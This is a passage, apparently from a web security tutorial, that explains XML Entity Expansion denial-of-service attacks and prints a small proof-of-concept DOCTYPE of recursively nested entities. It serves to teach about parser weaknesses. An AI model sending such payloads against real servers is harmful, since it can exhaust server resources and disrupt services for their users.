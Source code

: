 Even if external entities are not allowed by the parser, the permitting of internal entities can still be exploited by a malicious user and cause a disruption in the server. As all XML parser replaces entities with their defined values, a set of recursive entities can be created so that the server can process a huge amount of information until it is unable to respond.

This is called an **Entity Expansion attack**. The following structure is a simple proof of concept:

```

<!DOCTYPE test [

<!ENTITY entity0 "Level0-">

<!ENTITY entity1 "Level1-&entity0;">

<!ENTITY entity2 "Level2-&entity1;&entity1;">

<!ENTITY entity3 "Level3-&entity2;&entity2;&entity2;">

<!ENTITY entity4 "Level4-&entity3;&entity3;&entity3;&entity3;">

<!ENTITY entity5 "Level5-&entity4;&entity4;&entity4;&entity4;&entity4;">

]>

<reset><login>&entity0;</login><secret>Any bugs?</secret></reset>

```

![](img/00163.jpeg)
